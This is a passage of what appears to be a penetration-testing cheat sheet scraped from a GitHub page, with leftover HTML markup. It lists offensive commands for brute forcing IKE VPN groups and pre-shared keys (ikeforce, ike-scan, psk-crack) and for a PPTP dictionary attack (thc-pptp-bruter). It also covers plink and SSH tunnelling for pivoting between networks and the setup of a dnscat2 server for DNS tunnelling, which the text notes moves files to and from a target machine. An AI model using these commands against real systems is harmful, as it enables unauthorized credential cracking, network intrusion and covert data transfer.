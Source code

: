         `./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1` Use ike-scan to capture the PSK hash:

        <div class="highlight highlight-source-shell">

        <pre>ike-scan  
        ike-scan TARGET-IP  
        ike-scan -A TARGET-IP  
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key  
        ike-scan –M –A –n example<span class="pl-cce">\_</span>group -P hash-file.txt TARGET-IP</pre>

        </div>

        Use psk-crack to crack the PSK hash

        <div class="highlight highlight-source-shell">

        <pre>psk-crack hash-file.txt  
        pskcrack  
        psk-crack -b 5 TARGET-IPkey  
        psk-crack -b 5 --charset=<span class="pl-s"><span class="pl-pds">"</span>01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz<span class="pl-pds">"</span></span> 192-168-207-134key  
        psk-crack -d /path/to/dictionary-file TARGET-IP-key</pre>

        </div>

*   PPTP Hacking

    *   Identifying PPTP, it listens on TCP: 1723  
        NMAP PPTP Fingerprint:

        `nmap –Pn -sV -p 1723 TARGET(S)` PPTP Dictionary Attack

        `thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst`

*   Port Forwarding/Redirection

*   PuTTY Link tunnel - SSH Tunneling

    *   Forward remote port to local address:

        `plink.exe -P 22 -l root -pw "1337" -R 445:<local host>:445 <remote host>`

*   SSH Pivoting

    *   SSH pivoting from one network to another:

        `ssh -D <local host>:1010 -p 22 user@<remote host>`

*   DNS Tunneling

    *   dnscat2 supports “download” and “upload” commands for getting iles (data and programs) to and from the target machine.

    *   Attacking Machine Installation:

        <div class="highlight highlight-source-shell">

        <pre>apt-get update  
        apt-get -y install ruby-dev git make g++  
        gem install bundler  
        git clone https://github.com/iagox86/dnscat2.git  
        <span class="pl-c1">cd</span> dnscat2/server  
        bundle install</pre>
